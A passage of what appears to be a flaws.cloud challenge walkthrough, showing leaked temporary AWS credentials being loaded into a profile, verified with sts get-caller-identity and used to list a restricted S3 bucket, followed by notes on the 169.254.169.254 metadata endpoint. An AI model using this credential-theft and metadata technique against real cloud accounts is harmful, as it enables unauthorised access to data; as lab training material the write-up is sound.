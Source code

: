 ```bash

```

2. manually put this in our profile configuration file.

```bash
vim ~/.aws/credentials
# [flaws2]
# aws_access_key_id = ASIA6GG7PSQG3Z37DUWV
# aws_secret_access_key = jGW0vsJZV4UxMbkAZXW/7+cEyjRd1UPmNt0Jdokq
# aws_session_token = IQoJb3JpZ2luX2VjECMaCXV...45PGHVF05TUZ6AQ==


aws sts get-caller-identity \
    --profile flaws2
# {
#     "UserId": "AROAI3DXO3QJ4JAWIIQ5S:i-05bef8a081f307783",
#     "Account": "975426262029",
#     "Arn": "arn:aws:sts::975426262029:assumed-role/flaws/i-05bef8a081f307783"
# }
```

3. list the bucket

```bash

aws s3 ls s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud \
    --profile flaws2
#                            PRE ddcc78ff/
# 2017-02-26 21:11:07        871 index.html

aws s3 ls s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/ \
    --profile flaws2
# 2017-03-02 23:36:23       2463 hint1.html
# 2017-03-02 23:36:23       2080 hint2.html
# 2020-05-22 14:42:20       2924 index.html
```


---


Lesson learned
---



`169.254.169.254`, magic IP in the cloud world.
- AWS, Azure, Google, DigitalOcean and others use this to allow cloud resources to find out metadata about themselves.
- Some, such as Google, have additional constraints on the requests, such as requiring it to use `Metadata-Flavor: Google` as an HTTP header and refusing requests with an `X-Forwarded-For` header.
- AWS has recently created a new IMDSv2 that requires special headers, a challenge and response, and other protections, but many AWS accounts may not have enforced it. If you can make any sort of HTTP request from an EC2 to that IP, you'll likely get back information the owner would prefer you not see.
- A similar problem to getting access to the IAM profile's access keys is access to the EC2's user-data, which people sometimes use to pass secrets to the EC2 such as API keys or credentials.
